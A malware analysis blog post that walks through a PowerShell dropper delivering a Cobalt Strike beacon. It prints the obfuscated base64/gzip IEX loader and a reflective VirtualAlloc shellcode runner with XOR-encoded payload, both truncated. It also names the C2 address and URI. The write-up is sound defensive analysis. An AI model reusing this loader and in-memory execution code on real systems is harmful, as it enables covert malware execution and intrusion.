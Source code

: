 ```yaml
---
title: "Cobalt Strike Beacon Dropper Static Analysis"
categories:
  - Malware Analysis
toc: true
---
```


Cobalt Strike, which was originally developed as a legitimate security tool used for adversary emulation by Red Teams, has become a double-edged sword. Malicous actors have cracked the software, since then it's been abused by adversaries ranging from hacktivists to APTs to fufill their needs. This is article is an analysis of the PowerShell script that leads to execution of a Cobalt Strike beacon.  

## Discovery

I recently discovered this malicious PowerShell script from a [Twitter post by @xorJosh](https://twitter.com/xorJosh/status/1655905247334735878). In his tweet he described an Oracle related service was exploited to download and execute a PowerShell script.

[![1](/assets/images/CobaltStrikeBeaconAnalysis1/1.png)](/assets/images/CobaltStrikeBeaconAnalysis1/1.png){: .full}

The malware sample mentioned can be found on [MalwareBazaar](https://bazaar.abuse.ch/sample/9c9e8841d706406bc23d05589f77eec6f8df6d5e4076bc6a762fdb423bfe8c24/). Lets download this ourselves and have a look!

## Static Analysis (Stage 0)

```ruby
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAA/+y9Wa/qSrIu+rzrV8yHLa21xNo1wBhjjrSla2wwxh09mDqlkjHgBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9ERqSXp+I/lkXmO4UeH0/f/mNzynI/jr4xf/nLuYycAv/GP/7hnop/JFns/MM+HrNTnn/7X3/5t
....QUA"));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

The PS script starts by defining a variable `s` to Base64 decoded binary data. Once we get to the end of the `s` variable, we see the following:

```ruby
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

This Gzip decompresses the variable `s`, and inputs into the StreamReader object. The contents of the StreamReader object are then passed as input into the IEX function, Invoke-Expression, which executes a given PowerShell command or script. From this, we can take a guess that `s` is gzip compressed, PowerShell code? Let's recreate this process of Base64 decoding & Gzip decompressing in CyberChef.

[![2](/assets/images/CobaltStrikeBeaconAnalysis1/2.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/2.PNG){: .full}

We can see that indeed, this was more PowerShell code to be executed. Let's download this locally and analyze this script

## Static Analysis (Stage 1)

```ruby
Set-StrictMode -Version 2

function func_get_proc_address {
  Param ($var_module, $var_procedure)   
  $var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
  $var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
  return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
  Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
    [Parameter(Position = 1)] [Type] $var_return_type = [Void]
  )

  $var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
  $var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
  $var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

  return $var_type_builder.CreateType()
}

If ([IntPtr]::size -eq 8) {
  [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8DIyMja64+ydzc3Guq/Gui4GdHIiPc8GKb05aBdUsnIyMjeWuq2tzzIyMjIyMjIyMj2yMjIy08mS0jlyruApsib+4Cd0tKUANTUUxEUUJOA0BCTU1MVwNBRgNRVk0DSk0DZ2xwA05MR
  ...OP84/')

  for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
  }

  $var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
  $var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
  [System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

  $var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
  $var_runme.Invoke([IntPtr]::Zero)
}

```

The first defined function, `func_get_proc_address()`, basically retrieves the memory address of a specified procedure/function from a specified DLL. We can see this is used here, `$var_var = ... func_get_proc_address kernel32.dll VirtualAlloc), (...`. 

VirtualAlloc is a function of the Win32 API used to allocate a certain region of memory, to the calling process. We can see on the next line the parameters of this function, `$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)` (We'll get onto this `$var_code` variable in a second). Referencing the [documentation](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) on the VirtualAlloc function reveals:

[![3](/assets/images/CobaltStrikeBeaconAnalysis1/3.png)](/assets/images/CobaltStrikeBeaconAnalysis1/3.png){: .full}

We can now match up the corresponding parameters to the Microsoft documentation, but the one I'm most interested in is `flProtect`, which is set to `0x40`. `flProtect` defines the permissions given to an set allocation of memory.

[![4](/assets/images/CobaltStrikeBeaconAnalysis1/4.png)](/assets/images/CobaltStrikeBeaconAnalysis1/4.png){: .full}

We can see `0x40` is equivalent to `PAGE_EXECUTE_READWRITE`, which indicates the allocated memory is more than likely going to be used to execute malicous code. Let's uncover said code.

```ruby
If ([IntPtr]::size -eq 8) {
  [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8DIyMja64+ydzc3Guq/Gui4GdHIiPc8GKb05aBdUsnIyMjeWuq2tzzIyMjIyMjIyMj2yMjIy08mS0jlyruApsib+4Cd0tKUANTUUxEUUJOA0BCTU1MVwNBRgNRVk0DSk0DZ2xwA05MR
  ...OP84/')

  for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
  }
```

Going through this line by line, we first see a conditional statement, `If ([IntPtr]::size -eq 8) {...`. `[IntPtr]::size` is an integer that defines the architecture type. In a 32-bit system this is equal to `4` and in a 64-bit system this is equal to `8`. This first line checks if the program is of a 64-bit architecture, if so it'll continue executing, otherwise it'll finish without doing anything.

The next line, `[Byte[]]$var_code = [System.Convert]::FromBase64String('bn...4/')`, Base64 decodes a massive string, and then stores it as a byte array. The for loop that follows this, iterates over each element of this byte array, performing the following operation - `$var_code[$x] = $var_code[$x] -bxor 35`. This just bitwise XORs each element of the array with decimal 35. Interesting...

We can make a conclusion here that the string `bnli...P84/` is XOR encrypted & Base64 encoded. Let's recreate this in CyberChef.

[![5](/assets/images/CobaltStrikeBeaconAnalysis1/5.png)](/assets/images/CobaltStrikeBeaconAnalysis1/5.png){: .full}

We can see the recongizable PE DOS header `MZ` identifiying this file as an Windows Executable. Let's download this file locally and move onto Stage 2!

## Static Analysis (Stage 2)

For confirmation, I used the Linux `file` command to verify I'm dealing with an .exe file.

[![6](/assets/images/CobaltStrikeBeaconAnalysis1/6.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/6.PNG){: .full}

Let's run the `strings` command, to see if any we can recover anything interesting.

[![7](/assets/images/CobaltStrikeBeaconAnalysis1/7.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/7.PNG){: .full} 

Interesting, we see `beacon.x64.dll`, certaintly looks dodgy right? [Googling this](https://www.cobaltstrike.com/blog/cobalt-strike-and-yara-can-i-have-your-signature/) reveals this is a common string found in Cobalt Strike beacons. Know we now for sure this a Cobalt Strike beacon, let's try extract the configuration. 

To do this task, I took advanatge of [this](https://github.com/DidierStevens/DidierStevensSuite/blob/master/1768.py) great tool.

[![8](/assets/images/CobaltStrikeBeaconAnalysis1/8.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/8.PNG){: .full}

From this we can clearly see the IP address is of the C2 server is `81.70.197[.]244` over port `4433` with the HTTPS protocol. We can also see the HTTP C2 communications are sent to a URI of `/jquery-3.3.1.min.js`, in attempt to masquerade as a jsquery request.

Searching this IP on VirusTotal we can see it's been flagged from 2/88 security vendors. Further basic OSINT discovers it to be hosted by the cloud provider [Tencet Cloud Computing Company Limited](https://cloud.tencent.com/)

[![9](/assets/images/CobaltStrikeBeaconAnalysis1/9.png)](/assets/images/CobaltStrikeBeaconAnalysis1/9.png){: .full}
